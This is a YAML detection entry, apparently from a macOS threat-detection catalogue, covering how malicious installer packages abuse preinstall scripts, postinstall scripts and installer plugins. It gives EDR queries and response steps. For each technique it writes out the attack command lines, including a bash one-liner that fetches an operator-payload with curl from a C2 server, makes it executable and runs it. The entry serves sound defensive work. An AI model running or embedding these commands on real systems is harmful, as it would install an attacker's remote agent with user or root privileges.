 ```yaml
---
Name: Installers
Description: On macOS, malware is often distributed to users via macOS Installers. These are generally going to be extremely noisy in most environments. Most of these are only recommended for threat hunting, baselining or trigger some automated action to collect more information from the endpoint.
Author: 
Created: 2022-05-17
Full_Path:
  - Path: /System/Library/CoreServices/Installer.app/Contents/MacOS/Installer
  - Path: /System/Library/PrivateFrameworks/PackageKit.framework/Versions/A/XPCServices/package_script_service.xpc/Contents/MacOS/package_script_service
  - Path: /bin/bash
Resources:
  - Link: https://github.com/AutomoxSecurity/iShelly
Commands:

  - Name: macOS installer package with preinstall script
    Description: This query detects any instance of macOS installers running a preinstall script.
    Usecase: Adversaries may pair this technique with a social engineering component to execute malware.
    Category: Execution
    Privileges: Root
    MitreID: T1204.002
    Behaviors:
      - Step: When executing the pkg file generated via iShelly, launchd runs Installer as user.
      - Step: After the user clicks through Installer prompts and authenticates, launchd runs package_script_service as root.
      - Step: package_script_service runs bash (or whatever script interpreter is used in the installer) as root with a cmdline similar to <pre><code>/bin/bash /tmp/PKInstallSandbox.YxqP12/Scripts/com.simple.test.ir2Zsb/preinstall /Users/user/iShelly/Payloads/install_pkg.pkg / / / </code></pre>
      - Step: The bash process launches cp as root with the following cmdline <pre><code>cp files/operator-payload /Library/Application Support/ "</pre></code> chmod is also executed by the same bash process to make it executable using cmdline <pre><code>chmod +x /Library/Application Support/operator-payload </pre></code>
      - Step: the same bash process executes nohup -> bash as root with cmdline <pre><code>nohup bash -c /Library/Application\\ Support/operator-payload -name installer-w-preinstall-script</pre></code>
      - Step: operator-payload executes as root using cmdline <pre><code>/Library/Application Support/operator-payload -name installer-w-preinstall-script</pre></code> and makes a network connection to operator.
    Execute:
      - Prelude Operator: Run <a href="https://github.com/AutomoxSecurity/iShelly">iShelly</a> with the "Installer Package w/ only preinstall script" Installer Package option. Then execute the pkg file, which will execute an Operator agent after clicking through Installer prompts.
    Detect:
      - EDR: parent_process_name = "package_script_service" and process_cmdline = "*preinstall*"
      - Notes: Alerting on this will be extremely noisy and is not recommended. If using for baselining, exclude based on the pkg name in process_cmdline, but beware an attacker can also leverage this by naming their package after a popular installer.
    Respond:
      - Step: View the process_cmdline field. This will contain the execution of the preinstall script and will have the name of the .pkg being executed.
      - Step: Look at children of the process (often this will be the bash process, but could be another script interpreter). These children will be the commands executed as a result of the preinstall script.

  - Name: macOS installer package with postinstall script
    Description: This query detects any instance of macOS installers running a postinstall script.
    Usecase: Adversaries may pair this technique with a social engineering component to execute malware.
    Category: Execution
    Privileges: Root
    MitreID: T1204.002
    Behaviors:
      - Step: When executing the pkg file generated via <a href="https://github.com/AutomoxSecurity/iShelly">iShelly</a>, launchd runs Installer as user.
      - Step: After the user clicks through Installer prompts and authenticates, launchd runs package_script_service as root.
      - Step: package_script_service runs bash (or whatever script interpreter is used in the installer) as root with a cmdline similar to <pre><code>/bin/bash /tmp/PKInstallSandbox.YxqP12/Scripts/com.simple.test.ir2Zsb/postinstall /Users/user/iShelly/Payloads/install_pkg.pkg / / / </code></pre>
      - Step: The bash process launches cp as root with the following cmdline <pre><code>cp files/operator-payload /Library/Application Support/ "</pre></code> chmod is also executed by the same bash process to make it executable using cmdline <pre><code>chmod +x /Library/Application Support/operator-payload </pre></code>
      - Step: the same bash process executes nohup -> bash as root with cmdline <pre><code>nohup bash -c /Library/Application\\ Support/operator-payload -name installer-w-postinstall-script</pre></code>
      - Step: operator-payload executes as root using cmdline <pre><code>/Library/Application Support/operator-payload -name installer-w-postinstall-script</pre></code> and makes a network connection to operator.
    Execute:
      - Prelude Operator: Run <a href="https://github.com/AutomoxSecurity/iShelly">iShelly</a> with the "Installer Package w/ only postinstall script" Installer Package option. Then execute the pkg file, which will execute an Operator agent after clicking through Installer prompts.
    Detect:
      - EDR: parent_process_name = "package_script_service" and process_cmdline = "*postinstall*"
      - Notes: Alerting on this will be extremely noisy and is not recommended. If using for baselining, exclude based on the pkg name in process_cmdline, but beware an attacker can also leverage this by naming their package after a popular installer.
    Respond:
      - Step: View the process_cmdline field. This will contain the execution of the postinstall script and will have the name of the .pkg being executed.
      - Step: Look at children of the process (often this will be the bash process, but could be another script interpreter). These children will be the commands executed as a result of the postinstall script.

  - Name: macOS installer plugin
    Description: This query detects any instance of macOS installer plugins.
    Usecase: Adversaries may pair this technique with a social engineering component to execute malware. Adversaries may use this technique to generate less known EDR behavioral patterns or when they need malware running as user.
    Category: Execution
    Privileges: User
    MitreID: T1204.002
    Behaviors:
      - Step: When executing the pkg file generated via <a href="https://github.com/AutomoxSecurity/iShelly">iShelly</a>, launchd runs Installer as user.
      - Step: Installer prompts the user with subject "This package will run a program to determine if the software can be installed".
      - Step: xpcproxy magic happens, and launchd executes InstallerRemotePluginService-x86_64 as user.
      - Step: InstallerRemotePluginService-x86_64 then launches the script interpreter as a user. In our case via iShelly, this will be bash. The cmdline is
      <pre><code>/bin/bash -c /usr/bin/curl -k 'http://127.0.0.1:3391/payloads/d2526ae26fc2139263f57c2af445004e385772ec/operator-payload' -o /Users/$USER/Library/Application\\ Support/operator-payload; chmod +x /Users/$USER/Library/Application\\ Support/operator-payload; /Users/$USER/Library/Application\\ Support/operator-payload -name installer-plugin & </pre></code>
      - Step: as a result of the above bash one liner, bash executes the following children processes- curl, chmod, operator-payload.
      - Step: operator-payload makes a network connection to operator.
    Execute:
      - Prelude Operator: Run <a href="https://github.com/AutomoxSecurity/iShelly">iShelly</a> with the "Installer Package w/ Installer Plugin" Installer Package option.
    Detect:
      - EDR: process_name = "InstallerRemotePluginService-x86_64"
    Respond:
      - Step: View the children of the process. 
      - Step: View all network connections and file writes of all children processes.
---
```

